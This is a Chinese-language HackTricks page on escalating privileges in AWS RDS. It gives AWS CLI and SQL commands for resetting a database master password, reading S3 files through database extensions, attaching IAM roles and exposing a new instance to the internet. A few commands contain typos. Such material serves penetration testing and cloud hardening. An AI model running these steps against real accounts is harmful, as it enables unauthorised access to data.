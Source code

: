 # AWS - RDS Privesc

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## RDS - 关系数据库服务

有关 RDS 的更多信息，请查看：

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

拥有该权限的攻击者可以**修改主用户的密码**，以及数据库内的登录：
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
您需要能够**联系数据库**（它们通常仅在内部网络中可访问）。
{% endhint %}

**潜在影响：** 在数据库中查找敏感信息。

### rds-db:connect

根据[**文档**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)，具有此权限的用户可以连接到数据库实例。

### 滥用 RDS 角色 IAM 权限

#### Postgresql (Aurora)

{% hint style="success" %}
如果运行**`SELECT datname FROM pg_database;`**时发现名为**`rdsadmin`**的数据库，您就知道您在**AWS postgresql 数据库**中。
{% endhint %}

首先，您可以检查此数据库是否已用于访问任何其他 AWS 服务。您可以通过查看已安装的扩展来检查这一点：
```sql
SELECT * FROM pg_extension;
```
如果你发现类似 **`aws_s3`** 的东西，你可以假设这个数据库对 S3 **有某种访问权限**（还有其他扩展，如 **`aws_ml`** 和 **`aws_lambda`**）。

此外，如果你有权限运行 **`aws rds describe-db-clusters`**，你可以在 **`AssociatedRoles`** 字段中查看 **集群是否附加了任何 IAM 角色**。如果有，你可以假设这个数据库是 **为访问其他 AWS 服务而准备的**。根据 **角色的名称**（或者如果你能获取 **角色的权限**），你可以 **猜测** 数据库具有的额外访问权限。

现在，要 **读取存储桶中的文件**，你需要知道完整路径。你可以使用以下命令读取它：
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
如果你拥有**原始 AWS 凭证**，你也可以使用它们访问 S3 数据，方法是：
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **不需要更改任何参数组变量** 就可以访问 S3。
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
在 mysql 中，如果你运行查询 **`SELECT User, Host FROM mysql.user;`** 并且有一个用户叫 **`rdsadmin`**，你可以假设你在一个 **AWS RDS mysql 数据库** 中。
{% endhint %}

在 mysql 中运行 **`show variables;`**，如果变量如 **`aws_default_s3_role`**、**`aurora_load_from_s3_role`**、**`aurora_select_into_s3_role`** 有值，你可以假设数据库已准备好访问 S3 数据。

此外，如果你有权限运行 **`aws rds describe-db-clusters`**，你可以检查集群是否有任何 **关联角色**，这通常意味着可以访问 AWS 服务。

现在，要 **读取存储桶中的文件**，你需要知道完整路径。你可以用以下命令读取它：
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

拥有权限 `rds:AddRoleToDBCluster` 和 `iam:PassRole` 的攻击者可以 **将指定角色添加到现有的 RDS 实例**。这可能允许攻击者 **访问敏感数据** 或修改实例中的数据。
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**潜在影响**：访问敏感数据或对RDS实例中的数据进行未经授权的修改。\
请注意，一些数据库需要额外的配置，例如Mysql，需要在参数组中指定角色ARN。

### `rds:CreateDBInstance`

仅凭此权限，攻击者可以在已经存在并附加了**IAM角色**的集群中创建一个**新实例**。他将无法更改主用户密码，但他可能能够将新数据库实例暴露于互联网：
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: 测试
{% endhint %}

拥有权限 `rds:CreateDBInstance` 和 `iam:PassRole` 的攻击者可以 **创建一个附加指定角色的新 RDS 实例**。攻击者随后可能 **访问敏感数据** 或修改实例中的数据。

{% hint style="warning" %}
附加角色/实例配置文件的一些要求（来自 [**这里**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)）：

* 配置文件必须在您的账户中存在。
* 配置文件必须有一个 IAM 角色，Amazon EC2 有权限假设。
* 实例配置文件名称和关联的 IAM 角色名称必须以前缀 `AWSRDSCustom` 开头。
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**潜在影响**：访问敏感数据或对RDS实例中的数据进行未经授权的修改。

### `rds:AddRoleToDBInstance`, `iam:PassRole`

拥有权限 `rds:AddRoleToDBInstance` 和 `iam:PassRole` 的攻击者可以 **将指定角色添加到现有的RDS实例**。这可能允许攻击者 **访问敏感数据** 或修改实例中的数据。

{% hint style="warning" %}
DB实例必须位于集群之外
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**潜在影响**：访问RDS实例中的敏感数据或对数据的未经授权的修改。

{% hint style="success" %}
学习和实践AWS黑客技术：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks培训AWS红队专家(ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习和实践GCP黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家(GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**关注**我们在**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github库提交PR分享黑客技巧。

</details>
{% endhint %}
